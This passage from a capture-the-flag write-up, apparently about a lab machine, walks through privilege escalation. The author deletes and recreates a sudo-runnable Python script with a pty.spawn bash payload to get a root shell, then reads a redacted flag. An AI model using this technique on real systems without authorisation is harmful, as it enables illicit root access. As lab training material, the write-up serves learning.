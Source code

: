 They could run Python on the file `run.py`. It printed a message about the web server. I couldn't edit or read the script, so I started looking elsewhere. 

I looked at the files in the web root. Found the database credentials again. I connected to it. But I couldn't find anything in there. 

I then looked at the Apache configuration. The file `apache2.conf` was writable. I modified it, trying to get it to run as root, changing some settings. I managed to crash Apache, I'm not even sure how. I spent a lot of time trying to restart it on a non privileged port, changing where the logs went so my user could start it without getting an Access Denied. Nothing worked. 

So I looked everywhere on the server. Looking for crons, suid files, ... Again nothing. I ran LinPEAS on the server. It did not find anything I could exploit. 

Then, I went back to `run.py`. I could not modify it, but it was in cyber's home folder, so they could delete it.

```bash
cyber@ubuntu:~$ ls -ld /home/cyber/
drwx------ 3 cyber cyber 4096 Nov 17  2020 /home/cyber/

cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
```

I could then recreate the file with the code I wanted. I replace it with code that spawned a new bash shell and then executed it with sudo.

```bash
cyber@ubuntu:~$ cat run.py
import pty
pty.spawn("/bin/bash")

cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py

root@ubuntu:~# whoami
root
```

I was now root. So I could read the files in the yash home folder.

```bash
root@ubuntu:~# ls -l /home/yash/
total 16
-rwx------ 1 root root 864 Nov 17  2020 emergency.py
-rw-rw-r-- 1 yash yash 167 Nov 17  2020 fernet
-rw-rw-r-- 1 yash yash  68 Nov 16  2020 flag2.txt
-rw--w---- 1 yash yash 295 Nov 15  2020 root.txt

root@ubuntu:~# cat /home/yash/flag2.txt 
REDACTED


Sorry no ASCII art again :(
```

Looking at all those files, there was probably a way to escalate to yash, and then escalate to root. But I was already root. So I went for the root flag.
